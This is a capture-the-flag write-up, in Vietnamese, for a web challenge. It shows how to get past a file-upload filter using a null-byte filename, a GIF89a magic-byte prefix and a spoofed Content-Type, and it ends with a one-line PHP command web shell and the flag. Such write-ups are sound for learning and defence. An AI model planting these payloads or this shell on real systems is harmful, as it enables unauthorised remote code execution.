






Trước tiên, dạo một vòng qua website thì thấy đây là một dạng ứng dụng mạng xã hội, và ở trang đăng nhập đã có sẵn tài khoản được cung cấp. Sau khi login, ta thấy các tính năng như đăng post, react post nhưng những chỗ này hầu như không có gì để fuzz. Riêng tab Flight details có chức năng upload avatar nên mình nghĩ ngay đến File Upload Vulnerability và thử fuzz ở đây.

Fuzz thử với các đuôi phổ biến như:
```
.php
.phtml
.php3
.php4
.php5
.php7
.phar
```
Tất cả đều bị filter chặn và trả về thông báo:



Có vẻ như server chỉ chấp nhận file dạng ảnh và kiểm tra extension khá kỹ. Tiếp theo, ta thử dùng double extension:
```
shell.php.jpg
```
Vẫn tiếp tục bị chặn. Nhưng có một kỹ thuật khá hay mà PortSwigger có hướng dẫn, đó là sử dụng ký tự Null Byte %00:
```
If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: exploit.asp;.jpg or exploit.asp%00.jpg
```
Nôm na, nếu cơ chế kiểm tra phía server được viết bằng ngôn ngữ bậc cao như PHP hay Java, nhưng khi xử lý file lại gọi một hàm bậc thấp trong C/C++, thì sẽ sinh ra sự không nhất quán trong việc xác định đâu là phần extension của tệp. Ta thử với:
```
shell.php%00.jpg
```


Có vẻ như server còn validate cả nội dung của file nữa, nên ta thử bypass bằng Magic Byte GIF89a:
```
Content-Disposition: form-data; name="avatar"; filename="shell.php%00.jpg"
Content-Type: image/jpg

GIF89a
<?php phpinfo(); ?>
```


Vẫn bị chặn, chứng tỏ server có thể còn kiểm tra cả MIME Type nữa. Ta đổi `Content-Type` thành `image/gif`:



File upload thành công. Truy cập thử vào đường dẫn file ảnh, ta thấy server đã thực thi đoạn code PHP vừa upload:



Sửa lại shell để thực thi lệnh tùy ý:
```
<?php system($_GET['cmd']); ?>
```
Cuối cùng, get flag thôi:



FLAG: Algolymp{pigeon_post_47d35baace2f}